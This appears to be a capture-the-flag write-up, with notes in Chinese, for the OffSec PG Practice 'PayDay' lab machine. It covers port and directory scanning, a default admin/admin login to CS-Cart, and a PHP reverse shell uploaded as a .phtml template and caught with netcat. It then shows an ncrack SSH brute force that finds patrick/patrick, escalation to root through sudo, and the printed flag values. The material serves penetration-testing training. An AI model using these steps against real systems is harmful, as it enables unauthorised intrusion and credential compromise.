

###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# PayDay
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.192.39 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.192.39:22
Open 192.168.192.39:80
Open 192.168.192.39:110
Open 192.168.192.39:139
Open 192.168.192.39:143
Open 192.168.192.39:445
Open 192.168.192.39:993
Open 192.168.192.39:995

PORT    STATE SERVICE     REASON  VERSION
22/tcp  open  ssh         syn-ack OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
80/tcp  open  http        syn-ack Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: CS-Cart. Powerful PHP shopping cart software
110/tcp open  pop3        syn-ack Dovecot pop3d
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: MSHOME)
143/tcp open  imap        syn-ack Dovecot imapd
|_imap-capabilities: LOGINDISABLEDA0001 completed LITERAL+ IMAP4rev1 OK IDLE STARTTLS CHILDREN MULTIAPPEND NAMESPACE SORT LOGIN-REFERRALS SASL-IR Capability UNSELECT THREAD=REFERENCES
|_ssl-date: 2024-04-08T03:18:28+00:00; +7s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX/emailAddress=root@ubuntu01/localityName=Everywhere/organizationalUnitName=Office for Complication of Otherwise Simple Affairs
| Issuer: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX/emailAddress=root@ubuntu01/localityName=Everywhere/organizationalUnitName=Office for Complication of Otherwise Simple Affairs
445/tcp open  netbios-ssn syn-ack Samba smbd 3.0.26a (workgroup: MSHOME)
993/tcp open  ssl/imap    syn-ack Dovecot imapd
995/tcp open  ssl/pop3    syn-ack Dovecot pop3d
```

`buster`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ gobuster dir -u http://192.168.192.39 -w /home/kali/SecLists/Discovery/Web-Content/common.txt

===============================================================
/.hta                 (Status: 403) [Size: 304]
/.htpasswd            (Status: 403) [Size: 309]
/.htaccess            (Status: 403) [Size: 309]
/Thumbs.db            (Status: 200) [Size: 1]
/addons               (Status: 301) [Size: 335] [--> http://192.168.192.39/addons/]
/admin.php            (Status: 200) [Size: 9483]
/admin                (Status: 200) [Size: 9483]
/catalog              (Status: 301) [Size: 336] [--> http://192.168.192.39/catalog/]
/cgi-bin/             (Status: 403) [Size: 308]
/chart                (Status: 200) [Size: 0]
/classes              (Status: 301) [Size: 336] [--> http://192.168.192.39/classes/]
/config               (Status: 200) [Size: 13]
/core                 (Status: 301) [Size: 333] [--> http://192.168.192.39/core/]
/images               (Status: 301) [Size: 335] [--> http://192.168.192.39/images/]
/image                (Status: 200) [Size: 1971]
/include              (Status: 301) [Size: 336] [--> http://192.168.192.39/include/]
/index                (Status: 200) [Size: 28074]
/index.php            (Status: 200) [Size: 28074]
/init                 (Status: 200) [Size: 13]
/install              (Status: 200) [Size: 7731]
/payments             (Status: 301) [Size: 337] [--> http://192.168.192.39/payments/]
/prepare              (Status: 200) [Size: 0]
/server-status        (Status: 403) [Size: 313]
/skins                (Status: 301) [Size: 334] [--> http://192.168.192.39/skins/]
/store_closed         (Status: 200) [Size: 575]
/var                  (Status: 301) [Size: 332] [--> http://192.168.192.39/var/]
```

進到`http://192.168.192.39/admin.php`，可以用`admin/admin`登入，並參考[cs cart authenticated RCE](https://gist.github.com/momenbasel/ccb91523f86714edb96c871d4cf1d05c)

在網站的右半邊點選`template editor`



將shell.php改成`shell.phtml`上傳後，開啟nc，前往`192.168.192.39/skins/shell.phtml`反彈得shell，在`/home/patrick`得local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp445

$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@payday:/home/patrick$ cat local.txt
44d805c83d99737f44129d703c6e2e83
```

這什麼通靈題，先用`ncrack`破看看ssh
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ncrack 192.168.192.39 -u patrick -P /usr/share/wordlists/rockyou.txt -p ssh

Starting Ncrack 0.7 ( http://ncrack.org ) at 2024-04-08 02:38 EDT
Stats: 0:03:02 elapsed; 0 services completed (1 total)
Rate: 4.55; Found: 1; About 0.00% done
(press 'p' to list discovered credentials)
Discovered credentials for ssh on 192.168.192.39 22/tcp:
192.168.192.39 22/tcp ssh: 'patrick' 'patrick'
```

用`su patrick`切成p`atrick`，之後靠`sudo -l`得root權限，在/root得proof.txt
```
www-data@payday:/tmp$ su patrick
Password: patrick

patrick@payday:/tmp$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for patrick:patrick

User patrick may run the following commands on this host:
    (ALL) ALL
    
    
patrick@payday:/tmp$ sudo su
root@payday:/tmp# cd /root
root@payday:~# cat proof.txt
a33fad760c005ba6bbdfe64b5cd1d51b
```